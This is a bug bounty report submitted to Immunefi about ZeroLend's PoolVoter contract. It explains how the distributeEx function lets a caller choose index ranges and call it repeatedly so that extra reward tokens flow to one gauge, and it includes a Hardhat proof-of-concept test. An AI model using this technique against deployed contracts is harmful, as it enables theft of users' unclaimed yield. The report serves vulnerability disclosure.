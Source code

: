 
# Mechanism for distributing extra reward tokens is broken

Submitted on Sun Mar 03 2024 22:07:39 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28988

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
PoolVoter mechanism for distributing additional reward tokens is vulnerable and allows an attacker transfer all additional reward tokens to a desirable gauge in favor of himself. 

## Vulnerability Details
PoolVoter has 2 diffrent mechanism for distributing rewards, first is simple distribution which is intended to distribute main reward token, also there is a mechanism to distribute additional rewards other than main reward token through `distributeEx` function, in this implementation additional reward token balance of PoolVoter has been distributed to different gauges proportion to each gauge weight and totalWeight, `distributeEx` enables users to choose which pools to distribute rewards by start and end parameters, this creates a situation which enables malicious user to distribute rewards to one gauge in favor of himself and call this function again  to distribute remaining balance again, and repeat this process to transfer almost all reward tokens to a specific gauge. It is recommended to ensure `distributeEx` iterates through all pools and transfers additional rewards at once. 

## Impact Details
It enables a malicious user to transfer all additional reward tokens to one specific gauge in favor of himself, this is considered a theft of unclaimed yield.

## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L214-L234
        
## Proof of concept
## Proof of Concept
```
  describe("transfer additional rewards test", () => {
    it("Malicious user can transfer all additional rewards to a speciefic gauge", async function () {
    
    // NOTE: this test works with https://github.com/zerolend/governance/commit/4c18c037bd3360ec7316733478b67632fb5218c9 commit 
    // tests didn't work at latest commit, however there is no change at pool voter other than changing some variable names between two commits 
    // so there is no differece 
    // some parts has been added to deployement as follow
    // a new lending pool has been deployed during deployment and its gauge has been registered at pool voter during deployment 
    // some zero tokens has been transferred to ant.address, so ant.address have enough zero token balance 
    // there is an issue at line 136 of PoolVoter by missing a ! sign, which prevents adding pools to _pool array and preventing distribute rewards 
    // since this issue relates to distributing rewards I needed to fix that so distribute function works by fixing if statement 
    // however I submitted that issue seperately and its different from this issue 

    // voting to both gauges equally 
    let vote1 = 1e8/2;
    let vote2 = 1e8/2; 
    await poolVoter.connect(ant).vote([reserve.target, reserve2.target],[vote1, vote2]);
   
    // we consider zero is additional reward token of the pool voter ( not main reward token ) 
    // transferring rewards to pool voter 
    await zero.connect(ant).transfer(poolVoter.target, 1e6);

    // retrieve pool voter contract balance 
    let balance0 = await zero.balanceOf(poolVoter);

    // call distributeEx with start:0 and end:1 so rewards would be distributed only to fisrt gauge  
    // since first gauge has half of total weight so it would receive half of balance 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // we call it again so half of remaining balance would be distributed to first gauge again 
    // this process can be repeated to transfer all additional rewards to one gauge 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // we can see that half 
    let balanceAfter = await zero.balanceOf(poolVoter);
    expect(balanceAfter).lessThan(balance0);

    });
  });
```